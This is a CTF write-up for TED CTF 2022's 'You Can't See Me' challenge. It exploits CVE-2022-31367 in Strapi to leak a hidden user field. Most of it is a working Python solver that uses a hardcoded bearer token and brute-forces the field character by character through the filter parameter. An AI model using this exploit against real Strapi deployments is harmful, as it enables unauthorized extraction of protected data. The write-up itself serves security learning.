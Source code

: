 # You Can't See Me - TED CTF 2022 

Given access to Strapi dashboard


![img](https://raw.githubusercontent.com/kos0ng/ctf-writeups/master/solver/2022/tedctf/Pasted%20image%2020221110122039.png)


We try to check each data on dashboard and there is "User" tab in dashoard. Take a look on one of the user we can see that there is suspicous column which is "Flag"

![img](https://raw.githubusercontent.com/kos0ng/ctf-writeups/master/solver/2022/tedctf/Pasted%20image%2020221110122327.png)

Flag is hidden, given user can't view the hidden data. By using [CVE-2022-31367](https://github.com/kos0ng/CVEs/tree/main/CVE-2022-31367) unauthorized user can abuse the filter feature to get the value of the Flag. Here is the solver to get the flag.
```python
import requests
import json
import string
import urllib.parse

r = requests.session()
url = "http://103.250.10.221:8000/content-manager/collection-types/plugins::users-permissions.user?page=1&pageSize=10&_sort=username:ASC&_where[0][flag_containss]={}"
auth = {"Authorization":"Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MiwiaWF0IjoxNjY4MDU4MzIyLCJleHAiOjE2NzA2NTAzMjJ9.3z8fxPaec8wj_vCDHAWJztPbpXKMfx-4DPTQPxkngjU"}
leak_flag = ""
poss_char = string.printable[:-6].replace("%","")
while True:
	print("Leak : " + leak_flag)
	known_len = len(leak_flag)
	for i in poss_char:
		safe_string = urllib.parse.quote_plus(leak_flag+i)
		tmp_url = url.format(safe_string)
		data = json.loads(r.get(tmp_url,headers = auth).text)
		if(len(data['results']) > 0 ):
			leak_flag += i
			break
	if(known_len==len(leak_flag)):
		break
while True:
	print("Leak : " + leak_flag)
	known_len = len(leak_flag)
	for i in poss_char:
		safe_string = urllib.parse.quote_plus(i+leak_flag)
		tmp_url = url.format(safe_string)
		data = json.loads(r.get(tmp_url,headers = auth).text)
		if(len(data['results']) > 0 ):
			email = data['results'][0]['email']
			leak_flag = i + leak_flag
			break
	if(known_len==len(leak_flag)):
		break
print("Email : " + email)
print("Flag : " + leak_flag)
```

![img](https://raw.githubusercontent.com/kos0ng/ctf-writeups/master/solver/2022/tedctf/Pasted%20image%2020221110123525.png)
![img](https://raw.githubusercontent.com/kos0ng/ctf-writeups/master/solver/2022/tedctf/Pasted%20image%2020221110123727.png)

After that just change the format to flag format and got the flag

**Flag  : CTFTED2022{cve-2022-31367-should_be_easy_for_you}**

